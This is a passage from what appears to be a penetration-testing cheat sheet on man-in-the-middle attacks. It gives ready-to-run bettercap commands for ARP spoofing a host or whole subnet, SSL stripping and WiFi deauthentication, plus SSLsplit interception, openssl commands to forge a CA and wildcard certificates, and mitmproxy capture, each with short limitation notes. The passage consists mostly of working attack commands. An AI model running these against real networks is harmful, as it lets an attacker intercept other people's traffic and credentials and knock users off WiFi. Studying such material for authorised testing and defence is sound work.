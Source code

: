 **Documentation**: Man-in-the-Middle attacks using ARP poisoning to intercept network traffic.
**Limitations**: Only effective on local network; detected by ARP monitoring tools; modern switches have protections.

### Advanced MITM with Bettercap
```bash
# Modern MITM Framework
bettercap -iface eth0                                       # Interactive mode
bettercap -eval "set net.interface eth0; net.probe on; set arp.spoof.targets 192.168.1.100; arp.spoof on"

# HTTPS Downgrade Attack
bettercap -eval "set https.proxy.sslstrip true; https.proxy on"

# WiFi Attacks
bettercap -eval "wifi.recon on; wifi.deauth 00:11:22:33:44:55"

# Caplet Scripts (automated)
# mitm.cap
set net.interface wlan0
net.probe on
set arp.spoof.targets 192.168.1.0/24
arp.spoof on
net.sniff on
```

**Documentation**: Modern MITM framework with advanced capabilities including WiFi attacks and HTTPS downgrade.
**Limitations**: Requires physical proximity for WiFi; HSTS prevents some HTTPS downgrades; may trigger security alerts.

## SSL/TLS Traffic Interception

### SSL Kill Switch and Certificate Attacks
```bash
# SSLsplit - SSL/TLS Interception
sslsplit -D -l connections.log -j /tmp/ -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080

# Certificate Generation for MITM
openssl req -new -x509 -keyout ca.key -out ca.crt -days 365 -subj "/C=US/ST=CA/L=SF/O=Test/CN=TestCA"
openssl req -new -keyout server.key -out server.csr -days 365 -subj "/C=US/ST=CA/L=SF/O=Test/CN=*.example.com"
openssl x509 -req -in server.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out server.crt -days 365

# HTTPS Traffic Analysis with Proxy
mitmproxy -s intercept_script.py                           # Interactive HTTPS proxy
mitmdump -w capture.mitm                                   # Non-interactive capture
```

**Documentation**: SSL/TLS traffic interception using certificate manipulation and proxy techniques.
**Limitations**: Requires certificate installation on target; certificate pinning prevents attacks; generates security warnings.
